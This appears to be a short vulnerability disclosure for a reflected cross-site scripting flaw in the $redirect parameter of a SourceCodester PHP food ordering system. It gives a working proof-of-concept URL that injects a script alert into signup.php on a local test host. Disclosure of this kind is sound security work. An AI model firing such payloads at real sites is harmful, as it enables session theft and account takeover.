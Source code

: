 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16022/online-food-ordering-system-v2-using-php8-and-mysql-free-source-code.html

Vulnerability trigger parameter: $redirect

The process of vulnerability discovery is as follows：
![image](https://user-images.githubusercontent.com/30823782/212480988-323be7d4-9e89-4354-8b34-0a50f98f1071.png)
http://192.168.249.88/php-fos-db/signup.php?redirect=%3C/script%3E%3Cscript%3Ealert(%27xss%27)%3C/script%3E
![image](https://user-images.githubusercontent.com/30823782/212481187-b3cb3675-e448-4941-a3e3-8e0d82944fef.png)


